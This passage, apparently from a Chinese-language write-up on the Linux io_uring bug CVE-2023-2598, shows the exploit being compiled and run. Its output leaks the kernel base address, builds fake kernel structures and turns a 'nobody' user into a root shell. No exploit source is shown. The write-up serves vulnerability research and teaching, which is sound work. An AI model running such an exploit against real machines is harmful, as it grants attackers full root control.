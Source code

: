 ### 4-3. EXP测试

```bash
$ gcc -static ./exploit.c -luring -o ./exploit
$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
$ ./exploit
[*] CVE-2023-2598 Exploit by anatomic (@YordanStoychev)
memfd: 0, page: 0 at virt_addr: 0x4247000000, reading 266240000 bytes
memfd: 0, page: 500 at virt_addr: 0x42470001f4, reading 266240000 bytes
memfd: 0, page: 1000 at virt_addr: 0x42470003e8, reading 266240000 bytes
memfd: 0, page: 1500 at virt_addr: 0x42470005dc, reading 266240000 bytes
memfd: 0, page: 2000 at virt_addr: 0x42470007d0, reading 266240000 bytes
memfd: 0, page: 2500 at virt_addr: 0x42470009c4, reading 266240000 bytes
memfd: 0, page: 3000 at virt_addr: 0x4247000bb8, reading 266240000 bytes
memfd: 0, page: 3500 at virt_addr: 0x4247000dac, reading 266240000 bytes
memfd: 0, page: 4000 at virt_addr: 0x4247000fa0, reading 266240000 bytes
memfd: 0, page: 4500 at virt_addr: 0x4247001194, reading 266240000 bytes
memfd: 0, page: 5000 at virt_addr: 0x4247001388, reading 266240000 bytes
memfd: 0, page: 5500 at virt_addr: 0x424700157c, reading 266240000 bytes
memfd: 0, page: 6000 at virt_addr: 0x4247001770, reading 266240000 bytes
memfd: 0, page: 6500 at virt_addr: 0x4247001964, reading 266240000 bytes
memfd: 0, page: 7000 at virt_addr: 0x4247001b58, reading 266240000 bytes
memfd: 0, page: 7500 at virt_addr: 0x4247001d4c, reading 266240000 bytes
memfd: 0, page: 8000 at virt_addr: 0x4247001f40, reading 266240000 bytes
memfd: 0, page: 8500 at virt_addr: 0x4247002134, reading 266240000 bytes
memfd: 0, page: 9000 at virt_addr: 0x4247002328, reading 266240000 bytes
memfd: 0, page: 9500 at virt_addr: 0x424700251c, reading 266240000 bytes
memfd: 0, page: 10000 at virt_addr: 0x4247002710, reading 266240000 bytes
memfd: 0, page: 10500 at virt_addr: 0x4247002904, reading 266240000 bytes
memfd: 0, page: 11000 at virt_addr: 0x4247002af8, reading 266240000 bytes
memfd: 0, page: 11500 at virt_addr: 0x4247002cec, reading 266240000 bytes
memfd: 0, page: 12000 at virt_addr: 0x4247002ee0, reading 266240000 bytes
memfd: 0, page: 12500 at virt_addr: 0x42470030d4, reading 266240000 bytes
Found value 0xdeadbeefdeadbeef at offset 0x21c8
Socket object starts at offset 0x2000
kaslr_leak: 0xffffffffb09503f0
kaslr_base: 0xffffffffafe00000
found socket is socket number 1950
our struct sock object starts at 0xffff9817ff400000
fake proto structure set up at 0xffff9817ff400578
args at 0xffff9817ff400728
argv at 0xffff9817ff400750
subprocess_info set up at beginning of sock at 0xffff9817ff400000
calling ioctl...
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root)
/ # w00t w00t
```

## 5. 常用命令
